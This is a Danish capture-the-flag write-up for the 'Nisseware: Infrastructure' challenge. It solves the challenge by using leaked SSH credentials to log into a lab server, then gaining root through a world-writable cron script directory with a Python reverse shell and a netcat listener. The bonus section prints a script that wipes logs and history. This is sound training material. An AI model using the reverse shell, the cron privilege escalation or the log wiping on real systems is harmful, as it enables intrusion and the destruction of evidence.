









# Writeup

`Nisseware: Infrastructure` er en fortsættelse af [Nisseware: OSINT](../nisseware-osint/),
og her er det vigtigt at lægge mærke til sidste del af beskrivelsen: "*fandt du det hele? 👀*".

I OSINT-opgaven fandt vi frem til `HrM0rt3ns3n`s Twitter/X profil og derfra hans Mastodon.
Fra den fandt vi `n1ss3f4r`, som også havde en Mastodon.social profil, men vigtigere ledte denne til hans Infosec Exchange profil: https://infosec.exchange/@n1ss3f4r

Her er især det nyeste post relevant:



Her hintes til, at `n1ss3f4r` har profiler på andre medier, specifikt nogle af de ældre end Mastodon, der jo stadig er relativt ny.

En god start er at tjekke `WhatsMyName` igen og nu lave en søgning på `n1ss3f4r`:



Hmm, den finder dog kun `mastodon.social`, ikke engang `infosec.exchange`. Den finder også en `Apex Legends` gamingprofil, men den er unclaimed og næsten tom - højest sandsynligt en falsk positiv.
Vi kan også forsøge med `sherlock`, der dog heller ikke finder noget interessant. Andre tools kan også forsøges, men ellers er det bare at gå manuelt til værks, for de fleste tools vil have en del både falske positiver og mangler.

Det er altid en god idé i OSINT-challenges at prøve kendte usernames af på de mest almindelige sociale netværk og andre relevante sider som `Facebook`, `YouTube`, `Instagram`, `Twitter`, `GitHub`, `TikTok` osv. - lige her falder `TikTok` måske ikke helt inden for "gode gamle netværk", men det kunne de resterende sagtens, og disse bør alle tjekkes manuelt.

Gøres dette, vil man opdage, at `n1ss3f4r` har en Instagram konto: https://www.instagram.com/n1ss3f4r.


Han har faktisk en del interessante posts:


Især ét stikker dog tydeligt ud fra de resterende:



Zoomer vi mere ind ses, at der i venstre side af hans skærm er et `Visual Studio Code` vindue åbent, hvor han sidder og udvikler på `VBA`-koden fra [Nisseware: Phishing](../nisseware-phishing/).
Vigtigere til højre ses et terminalvindue samt en mail fra `HrM0rt3ns3n`:





I mailen står:

```
Godmorgen nissefar!

Jeg har som aftalt sat ny C2-server op, den burde være good to go.
Du kan forbinde via SSH til n1ss3b4nd3n.jul med dit normale handle og passwordet:
HyphypAlleMine9R3nsdyr!

Har smidt et par scripts på til automatisk fetch af nye ransom betalinger og til at wipe logs regelmæssigt,
så du skal ikke være så nervøs for, hvordan du bruger maskinen.
Vi skal nødig ende i samme situation som sidst, spændende hvornår Sk1pp3r kommer ud igen...

/Hr. M0rt3ns3n
```

Fedt! Et tydeligt leak af både serveren `n1ss3b4nd3n.jul` og hans password `HyphypAlleMine9R3nsdyr!`.
I terminalen kan man se, at `n1ss3f4r` connecter med `ssh n1ss3f4r@n1ss3b4nd3n.jul` og kommer ind på serveren.

Nu kan vi infiltrere `N1ss3b4nd3n`s server og få adgang til `n1ss3f4r`s profil!
Serveren kører via [Haaukins](https://ncctf.haaukins.dk) og kræver, man lige sætter et `VPN`- eller browserlab op, hvorefter vi kan logge ind med samme command og password som `n1ss3f4r`.

Her finder vi første halvdel af flaget i `flag_user.txt`: `NC3{N1ss3b4nd3ns_53rv3r`



Der ligger også VBA-scriptet og det ondsindede regneark fra [Nisseware: Phishing](../nisseware-phishing/) samt en `payloads/` mappe med tre af gruppens payloads, som også ligger i deres pastebin.
Altså kan man i princippet løse [Nisseware: Loading](../nisseware-loading/) nu, hvis man tidligere fandt frem til pastebin og den offentlige paste med medlemslisten, men missede, at man kunne tilgå GitHub repoet og commit history, der ellers ledte til scriptet med flag.

Sidst ligger i hjemmemappen følgende `todo.txt`:

```md
# TODO

- Følg op på seneste angreb (Legetøj"Я"Os)
  - Monitorer overførsel af ransom
  - Gennemgå eksfiltrerede dokumenter med prototyper, sæt i produktion eller sælg
- Forbedr script til monitorering af nye ransomoverførsler
- Husk tandlægetid
- Forbered nisserne på ny fyringsrunde
- Find nye targets i legetøjsbranchen
- Tjek op på serverens sikkerhed, bør muligvis hærdes lidt
```

Meget tydeligt tegn på, de står bag det efterforskede angreb og lidt hints til, hvad de mon eksfiltrerede, hvis man ikke har løst [Nisseware: Exfiltration](../nisseware-exfiltration/) endnu.
Samtidig virker der til at være noget monitoreringsscript og måske nogle sikkerhedshuller på serveren.

Tid til enumeration! En hurtig `ls /` viser, at der ligger en mappe, der ikke plejer, nemlig `data`:

```console
$ ls /
bin  boot  data  dev  etc  home  lib  lib32  lib64  libx32  media  mnt  opt  proc  root  run  sbin  srv  sys  tmp  usr  var
```

Lad os undersøge, hvad den indeholder:

```console
$ ls /data/
payments.txt
```

```console
$ cat payments.txt 
2023-11-27 13:45:01+00:00
cc9a47154a1e7dbdf20e5909edeec089:  16.33 ETH

2023-11-27 21:25:01+00:00
8a24d712e90da50022256b9c455e7c23:  18.36 ETH

2023-11-28 15:40:01+00:00
6cf760aab7ed41e5bded1bc939da7bab:  3.48 ETH

2023-11-28 18:05:01+00:00
75b76a16a8f053e0b93048dcc35724ec:  11.02 ETH
79a7cbf05bb959a956a654424eca0114:  26.64 ETH

2023-11-29 08:50:01+00:00
26f3b9e0337b3dee58f8c3441854f7b2:  30.98 ETH

2023-11-30 09:15:01+00:00
fde4f5eb29cc1fa313dd4add2e39bd8f:  4.26 ETH
1920316f574bbce48891b3556cdae767:  19.72 ETH

2023-11-30 12:30:01+00:00
a4f7de91cbc3b70eb500b74ba093369f:  12.37 ETH
```

Hmm, det virker som indkommende betalinger, sandsynligvis løsesummer fra `N1ss3b4nd3n`s angreb, måske det er dem, der hentes ned med det nævnte monitoreringsscript?

En god enumereringstaktik er at køre et automatisk script som [linpeas.sh](https://linpeas.sh/), der tjekker for de mest almindelige sårbarheder og mulige indgangsvinkler.
Man kan dog også gå manuelt til værks, da det ikke er tænkt som en svær `boot2root` maskine.

Der er `sudo` på maskinen, men `n1ss3f4r` har ikke `sudo`-rettigheder:

```console
$ sudo -l
Sorry, user n1ss3f4r may not run sudo on n1ss3b4nd3n
```

Tjekker vi kørende processer med `top`, kan vi se en række processer i stil med følgende:

```console
$ top

PID USER      PR  NI    VIRT    RES    SHR S  %CPU  %MEM     TIME+ COMMAND
  1 root      20   0    2888    968    872 S   0.0   0.0   0:00.03 sh
  7 root      20   0    4360   3248   3008 S   0.0   0.0   0:00.00 startup.sh
  9 root      20   0    3884   1980   1796 S   0.0   0.0   0:00.00 cron
 11 root      20   0   15420   8840   7264 S   0.0   0.0   0:00.00 sshd
 12 root      20   0   16716  10588   8704 S   0.0   0.0   0:00.08 sshd
 23 n1ss3f4r  20   0   16976   7776   5628 S   0.0   0.0   0:00.01 sshd
 24 n1ss3f4r  20   0    5044   4052   3448 S   0.0   0.0   0:00.00 bash
 30 n1ss3f4r  20   0    7744   3604   3012 R   0.0   0.0   0:00.02 top
```

Mest interessant er her, at der køres `cron`, det er klart værd at udforske yderligere, især fordi det kører som `root`!

At det kører som `root` betyder, at vi ikke kan se info på det med en `crontab` fra `n1ss3f4r`s profil - den eksisterer slet ikke:

```console
$ crontab -l
no crontab for n1ss3f4r
```

Vi kigger i stedet i de relevante mapper i `/etc` og ser, om der ligger noget brugbart:

```console
$ ls /etc/cron.d
e2scrub_all  run_scripts
```

`e2scrub_all` er standard og tjekker bare for problemer i logiske volumes, men `run_scripts` ser custom og interessant ud!

```console
$ cat /etc/cron.d/run_scripts 
*/5 * * * * root /bin/bash /root/run_all.sh /usr/scheduled
```

Okay, så hvert 5. minut køres `/root/run_all.sh /usr/scheduled` som `root`, det skal klart udforskes.
Vi har ikke rettigheder til at kigge i `/root`, men navnet tyder jo på, at scriptet bare kører alle scripts i `/usr/scheduled`, så vi undersøger indholdet af denne mappe:

```console
$ ls -la /usr/scheduled/
total 16
drwxrwxrwx 1 root root 4096 Nov 29 11:20 .
drwxr-xr-x 1 root root 4096 Nov 29 11:20 ..
-rwx------ 1 root root  110 Nov 29 11:19 delete_logs.sh
-rwx------ 1 root root  594 Nov 29 11:19 fetch_new_payments.sh
```

`delete_logs.sh` er nok et script til at slette relevante logs hvert 5. minut, og `fetch_new_payments.sh` henter nok nye løsesumsbetalinger ind i `/data/payments.txt`.
Vi kan ikke verificere disse hypoteser, da begge scripts kun er læsbare af `root`, men vi kan måske få lov at køre vores eget script, og så vil det jo køre som `root`!

Der er mange mulige veje frem her - en af de simpleste vil være et script, der bare kopierer indholdet af `/flag_root.txt` til en fil i en tilgængelig mappe.
En lidt mere generel løsning, der også giver adgang til andre potentielle filer, er dog at køre en reverse shell.

Idéen er at sætte en `netcat` listener op på vores lokale maskine med fx `nc -lvnp 4000` og køre et script fra serveren, der connecter til *vores* maskine på port `4000` og giver os en shell tilbage ind på serveren (derfor *reverse* shell). Siden https://revshells.com er super god til dette formål og har en lang række templates til forskellige reverse shells, hvor IP, port, shell type og encoding nemt kan ændres interaktivt:



Når vi finder et reverse shell, der virker lovende, kan vi som en start prøve at køre det som kommando direkte fra `n1ss3f4r`s profil og se, om vi får adgang til serveren med denne bruger.
Hvis dette virker, kan vi skrive det ned i et script i `/usr/scheduled/` og vente på, det afvikles, så bør vi få en `root` shell.

Èn mulighed er et standard `bash` reverse shell, men serveren har også `Python 3` installeret, så vi kan bruge et klassisk `python3` revshell i stedet.
Vi skriver følgende til `/usr/scheduled/shell.sh` med vores egen maskines IP indsat:

```bash
#!/bin/bash
export RHOST="<DIN-LOKALE-IP>"
export RPORT=4000
python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("bash")'
```

Der er ikke `nano` på maskinen, men man kan bruge `vim` eller bare redirecte det ind med `echo`.

Herefter er det bare at vente i max 5 minutter, og så er der `root` shell!



Her ser vi bl.a. `flag_root.txt`, som indeholder anden og sidste del af flaget: `_1nf1ltr3r3t_g00d_j0b!}`.
De kan samles til `NC3{N1ss3b4nd3ns_53rv3r_1nf1ltr3r3t_g00d_j0b!}`, og vi har nu løst opgaven og skaffet fuld access til `N1ss3b4nd3n`s server!

Du er nået til én af seriens primære end goals: disruption af gruppen og takedown af deres server. Har du endnu ikke analyseret C2-trafikken og/eller ransomwaren, kan du fortsætte med end goalet "dekryptering" fra og med [Nisseware: Exfiltration](../nisseware-exfiltration/) eller måske gå ad kryptovejen i [Nisseware: Ransom](../nisseware-ransom/).

## Bonus!

Du har fået fuld adgang til serveren, så hvorfor ikke lige undersøge de resterende og tidligere ulæselige filer!

Der ligger en `c2/` mappe og en `nisseware/` mappe i `/root/` med en række af gruppens filer!

`c2/` indeholder som easter egg serverkoden for `c2`-frameworket, hvor man ellers kun har kunne se klienten i netværkstrafikken.
Herudover ligger `c2/uploads`, hvor det tydeligt ses, at `N1ss3b4nd3n` har eksfiltreret filer fra legetøjsfirmaet - desværre ikke den med flaget fra [Nisseware: Exfiltration](../nisseware-exfiltration/), den har de åbenbart slettet igen 😉

I `nisseware/` mappen ligger den faktiske ransomware, nemlig filen `AntiVirusInstaller.exe` samt ransomnoten `instructions.hta`.
Denne ransomware er ellers sendt krypteret af C2-serveren og kræver, man løser [Nisseware: Exfiltration](../nisseware-exfiltration/), så den kan dekrypteres,
men når man helt hertil først, er der altså givet en alternativ genvej ind i [Nisseware: Dropper](../nisseware-dropper/), hvor man kan springe noget reversing og crypto over.

Til de nysgerrige kan vi nu også læse `run_all.sh`:

```sh
#!/bin/bash
for file in $1/*
do
    /bin/bash "$file"
done
```

samt de to scripts i `/usr/scheduled`, først `delete_logs.sh`:

```sh
#!/bin/bash
truncate -s 0 /root/.bash_history
truncate -s 0 /home/*/.bash_history
truncate -s 0 /var/log/*log
```

og så `fetch_new_payments.sh`, hvor der muligvis er snydt lidt og bare simuleret nye overførsler til `payments.txt`:

```sh
#!/bin/bash

# Vent, så payment scriptet var bare simuleret, det hele er fake???
# 𝘈𝘭𝘸𝘢𝘺𝘴 𝘩𝘢𝘴 𝘣𝘦𝘦𝘯
# 🌍  👨‍🚀🔫👨‍🚀
r=$(shuf -i 0-10 -n 1)
if [ $r -gt 9 ]
then
    count=2
elif [ $r -gt 6 ]
then
    count=1
else
    count=0
fi

if [ $count -gt 0 ]
then
    date -u --rfc-3339=seconds >> /data/payments.txt
fi

for i in $(seq $count)
do
    echo "$(date -u --rfc-3339=ns | md5sum | awk '{print $1}'):  $((1 + RANDOM % 20)).$((RANDOM % 100)) ETH" >> /data/payments.txt
done

if [ $count -gt 0 ]
then
    echo "" >> /data/payments.txt
fi
```

Så er der vist heller ikke flere easter eggs at hente i den opgave 😃

Til dem, der ikke fandt Instagram kontoen eller ikke var interesseret i at oprette en profil, kan man se alle `n1ss3f4rs` fine posts her:





**Flag**

`NC3{N1ss3b4nd3ns_53rv3r_1nf1ltr3r3t_g00d_j0b!}`
